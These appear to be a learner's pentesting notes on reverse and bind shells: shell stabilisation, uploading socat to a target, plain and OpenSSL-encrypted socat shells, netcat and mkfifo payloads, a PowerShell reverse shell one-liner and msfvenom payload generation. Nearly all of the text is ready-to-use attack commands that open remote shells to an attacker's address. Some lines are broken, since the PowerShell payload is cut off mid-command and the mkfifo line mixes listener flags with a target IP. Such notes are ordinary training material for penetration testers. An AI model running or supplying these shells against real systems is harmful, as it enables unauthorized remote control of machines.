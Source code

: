 Netcat
Socat
MSF auxiliary/multi/handler
MSF venom
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
/usr/share/webshells




2 types
Reverse
Bind 





Shell Stabilisation


```
python -c 'import pty;pty.spawn("/bin/bash")'
python2 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm 

stty raw -echo; fg
```





Py
    The first thing to do is use 

```python3 -c 'import pty;pty.spawn("/bin/bash")'```

, which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
    Step two is: 
```export TERM=xterm``` 
-- this will give us access to term commands such as clear.
    
Finally (and most importantly) we will background the shell using 

Ctrl + Z. 

Back in our own terminal we use 

```stty raw -echo; fg```

This does two things: 
	first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). 
	It then foregrounds the shell, thus completing the process. 

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.


stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>





rlwrap (good for windows)

sudo apt install rlwrap

rlwrap nc -lvnp <port>

linux use Ctrl + Z then stty raw -echo; fg

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>






Socat 

serve this file on py server:

sudo python3 -m http.server 80

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true


upload from host:

linux:
wget 10.6.65.43/socat -O /tmp/socat

windows:
Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe

stty -a 	(new terminal  // size you want)  then set:
stty rows <number>
stty cols <number>










Socat 101


Reverse Shell

listen:
socat TCP-L:443 -

connect:
windows:
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes

linux:
socat TCP:10.6.65.43:443 EXEC:"bash -li"




Bind Shell

listen:
socat TCP-LISTENER:443 EXEC:"bash -li"

socat TCP-L:<PORT> EXEC:powershell.exe,pipes


We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

connect:
socat TCP:10.10.221.44:443



target linux only:

any payload:
socat TCP-L:<port> FILE:`tty`,raw,echo=0

if socat installed:
socat TCP:10.6.65.43:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane


If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command



Socat Encrypted Shells


TCP becomes OPENSSL

1- generate certificate
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
leave blank 


2- merge file

```cat shell.key shell.crt > shell.pem```


3- set up listner

```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -```

connect:

```socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash```

bind shell:

target-
```socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes```

attacker:

```socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -```


EXAMPLE
```
socat OPENSSL-LISTEN:53,cert=encrypt.pen,verify=0 FILE:`tty`,raw,echo=0 


socat OPENSSL:10.10.10.5:53 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```









PAYLOADS


netcat -e option let you execute a process on connection.


bind shell
```nc -lvnp <PORT> -e /bin/bash```

reverse shell
```nc <LOCAL-IP> <PORT> -e /bin/bash```


linux
```mkfifo /tmp/f; nc -lvnp 10.6.65.43 1234 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f```


windows
needs to be one line:
```powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length```




msfvennom

```msfvenom -p <PAYLOAD> <OPTIONS>```


```msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>```


staged - good for ids detection, first stage just connects, second stage downloads code


stageless - most common, all in one, 

meterpreter shell  -  must be used in msf, banned from certain certifications



```<OS>/<arch>/<payload>```

linux/x86/shell_reverse_tcp


camel case = stageless

backslash = staged



```msfvenom --list payloads | grep "<OS>/<arch>/<payload>"```

































